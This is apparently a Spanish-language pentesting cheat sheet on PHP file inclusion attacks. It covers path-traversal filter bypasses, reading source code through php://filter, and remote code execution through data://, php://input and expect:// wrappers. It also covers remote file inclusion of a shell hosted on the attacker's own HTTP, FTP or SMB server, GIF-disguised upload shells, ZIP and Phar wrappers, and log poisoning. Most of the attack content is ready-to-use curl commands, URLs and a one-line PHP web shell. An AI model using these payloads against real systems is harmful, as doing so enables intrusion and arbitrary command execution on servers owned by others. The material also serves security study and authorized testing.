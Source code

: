 

## Basic bypasses
### Non-Recursive Path Traversal Filters

Es un filtro que elimina ../ pero de forma no recursiva asi que se puede bypassear asi :
....//
..././
....////
### Encoding
algunos filtros eliminan ../ pero puedes url encodearlo para bypassearlo

### Appended Extension
-Path Truncation
En versiones antiguas de PHP( antes de PHP 5.3 y 5.4), cadenas > 4096 caracteres se truncaban:
```
non_existing_dir/../../../etc/passwd/./././././ ... (repetido muchas veces)
```
-Null Bytes 
En PHP <5.5, %00 termina la cadena por ende podriamos hacer ../../etc/passwd%00 para eliminar el .php

## PHP filters
Si leemos un archivo como config.php probablemente no podamos ver el código fuente puesto que lo renderizara así que podemos hacer la petición del código fuente en base 64 para que no lo renderice y luego decodificarlo para ver el códgio fuente : 
```
caca?caca=php://filter/read=convert.base64-encode/resource=config
```
## RCE Wrappers

 1.Verificar allow_url_include leyéndolo de php.ini . Ejemplo:
 ```
 php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

### Data Wrapper
Permite incluir datos externos, incluso código PHP.Puede decodificar strings en base64 y ejecutar PHP contenido
1.
```
echo '<?php system($_GET["cmd"]); ?>' | base64
```
2.
```
curl 'http://<SERVER>/index.php?language=data://text/plain;base64,<base64 shell>&cmd=<comando>'
```

### Input Wrapper 

```
curl -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER>/index.php?language=php://input&cmd=id"
```
Nota: El comando se pasa vía GET, pero si la app solo acepta POST, el comando puede estar hardcodeado en el shell PHP enviado.

### Expect Wrapper

```
curl "http://<SERVER>/index.php?language=expect://id"
```
es raro que deje puesto que no se suele usar este wrapper
## RCE RFI

Básicamente metes en el campo vulnerable un servidor que estes levantando tu con una revers shell 
1.Crear shell 
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
2.Crear un server en HTTP, FTP o SMB
```
sudo python3 -m http.server <PUERTO>
```

```
sudo python -m pyftpdlib -p 21
```

```
impacket-smbserver -smb2support share $(pwd)
```

3.Ejecutar la shell via RFI 

en http : 
```
http://<SERVER_IP>/index.php?language=http://<TU_IP>:<PUERTO>/shell.php&cmd=id
```
en ftp : 
```
ftp://user:pass@<TU_IP>/shell.php
```
en SMB: 
```
\\<TU_IP>\share\shell.php
```

## RCE File uploads

Imagina que te dejan subir un gif a una web :

1.Shell maliciosa
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
GIF8 son los bytes mágicos para identificarla como imagen GIF.
Esto ayuda a pasar controles básicos de validación en la subida.

2.Obtener ruta del archivo subido
Inspeccionar el código HTML para obtener la ruta (ej: /profile_images/shell.gif).

3.A jugar
```
http://server/index.php?page=./profile_images/shell.gif&cmd=id
```

### Técnicas avanzadas alternativas (solo PHP)
#### ZIP upload

Crear un archivo ZIP con el PHP shell dentro, pero nombrarlo con extensión de imagen (ej: shell.jpg)

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.jpg shell.php
```
y usar el wrapper ZIP para inculirlo
```
include('zip://./profile_images/shell.jpg#shell.php');
```
#### Phar upload

Crear un archivo Phar que contenga el código PHP:
```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
Compilar y renombrar:
```
php --define phar.readonly=0 shell.php
mv shell.phar shell.jpg
```
Subir `shell.jpg` y usar el wrapper Phar para incluir:
```
include('phar://./profile_images/shell.jpg/shell.txt');
```
Y luego ejecutas los comandos que quieras 
## RCE Log Poisoning
Primero de todo vemos donde guarda la web los logs , en este caso los guarda en : `/var/log/nginx/access.log`

Luego vemos que encabezado de nuestra request es el que guarda en los logs para inyectarle la shell

Por ultimo volvemos a entrar a los logs para que la shell se ejecute
